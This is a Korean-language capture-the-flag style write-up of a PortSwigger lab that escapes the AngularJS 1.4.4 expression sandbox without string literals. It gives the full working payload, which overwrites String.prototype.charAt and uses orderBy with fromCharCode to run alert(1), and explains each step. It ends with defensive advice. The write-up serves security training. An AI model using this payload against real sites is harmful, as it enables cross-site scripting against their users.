


+++
date = '2026-06-07T09:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Reflected XSS with AngularJS sandbox escape without strings'
summary = "문자열과 $eval을 사용할 수 없는 AngularJS 1.4.4 환경에서 String 프로토타입과 orderBy 필터로 샌드박스를 탈출하는 풀이"
toc = true
tags = ["XSS", "Reflected XSS", "AngularJS", "Sandbox Escape", "PortSwigger", "Expert"]
url = '/write-up/portswigger/xss/write-up-portswigger---reflected-xss-with-angularjs-sandbox-escape-without-strings/'
+++

---

## 문제 분석

> **난이도**: `EXPERT`  
> **Lab**: [Reflected XSS with AngularJS sandbox escape without strings](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings)

> 

애플리케이션은 AngularJS를 비정상적인 방식으로 사용하며, 주입할 표현식에서 문자열 리터럴과 `$eval`을 사용할 수 없다. AngularJS 1.4.4의 샌드박스를 우회해 `alert()`를 호출하면 문제가 해결된다.

### XSS 진단

검색 요청의 파라미터는 다음과 같은 스크립트로 변환된다.

```html
<script>
angular.module('labApp', []).controller('vulnCtrl', function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = 'xss';
    $scope.value = $parse(key)($scope.query);
});
</script>
<h1 ng-controller="vulnCtrl">0 search results for {{value}}</h1>
```

`/?search=xss&foo=bar`처럼 파라미터를 추가하면 `foo`도 새로운 `key`로 등록되고 `$parse(key)`에 전달된다. 즉 파라미터 이름을 AngularJS 표현식으로 제어할 수 있다. 다만 따옴표는 JavaScript 문자열에 안전하게 처리되므로 표현식에서 문자열을 직접 작성할 수 없다.

---

## 익스플로잇

AngularJS 1.4.4에서 동작하는 다음 표현식을 새로운 파라미터 이름으로 추가한다.

```javascript
toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

첫 번째 구문은 `toString()`의 결과에서 `String` 생성자에 접근한 뒤 모든 문자열이 공유하는 `String.prototype.charAt`을 `Array.prototype.join`으로 덮어쓴다.

```javascript
toString().constructor.prototype.charAt=[].join
```

AngularJS 샌드박스가 표현식을 검사할 때 사용하는 문자열 처리 동작이 바뀌면서 기존 안전성 검사가 무력화된다.

두 번째 구문은 `[1]` 배열을 `orderBy` 필터에 전달하고 `String.fromCharCode()`로 따옴표 없이 공격 문자열을 만든다.

```javascript
[1]|orderBy:toString().constructor.fromCharCode(
    120,61,97,108,101,114,116,40,49,41
)=1
```

문자 코드를 변환한 결과는 `x=alert(1)`이다. `orderBy`가 이 문자열을 정렬 표현식으로 파싱하면서 대입식과 `alert()`가 실행된다.

페이로드를 URL 인코딩해 `search=1` 뒤에 새로운 파라미터로 전달한다.



AngularJS 샌드박스 검사를 우회한 표현식이 실행되어 문제가 해결된다.


---

## 정리

이 랩은 문자열 리터럴과 `$eval`을 차단해도 프레임워크 내부의 표현식 가젯을 조합하면 코드 실행으로 이어질 수 있음을 보여준다. 오래된 AngularJS 샌드박스는 보안 경계로 사용할 수 없으며, 사용자 입력을 `$parse` 같은 표현식 파서에 전달하지 않는 것이 중요하다.
